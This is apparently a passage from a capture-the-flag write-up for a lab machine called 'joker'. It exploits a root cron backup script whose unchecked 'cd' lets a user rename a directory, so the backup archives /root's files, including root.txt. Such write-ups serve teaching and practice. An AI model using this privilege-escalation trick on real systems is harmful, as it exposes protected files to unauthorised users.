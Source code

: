 #### Theory

I always like to look at the automation on boxes. In this case, `/root/backup.sh` is running every five minutes:

```

root@joker:~# crontab -l
...[snip]...
*/5 * * * * /root/backup.sh

```

The script follows:

```

root@joker:~# cat backup.sh 
#!/bin/sh

FILENAME="dev-$(date +%s).tar.gz"

cd /home/alekos/development;
tar cf /home/alekos/backup/$FILENAME *;
chown root:alekos /home/alekos/backup/$FILENAME;
chmod 640 /home/alekos/backup/$FILENAME;

```

It changes into the `development` directory, runs `tar cf` on `*`, then changes the owner, group, and permissions.

But what if that first `cd` fails? The directory would stay in `/root`, and then it would run `tar cf` to compress everything and drop the archive into the same filename.

#### Exploit

I’ll move the `development` directory to something else:

```

alekos@joker:~$ mv development{,.orig}
alekos@joker:~$ ls
backup  development.orig  user.txt

```

Now when a new archive is created, it has the contents of `/root`:

```

alekos@joker:~/backup$ tar tvf dev-1596506401.tar.gz 
-rwx------ root/root       205 2017-05-18 19:25 backup.sh
-r-------- root/root        33 2017-05-19 17:57 root.txt

```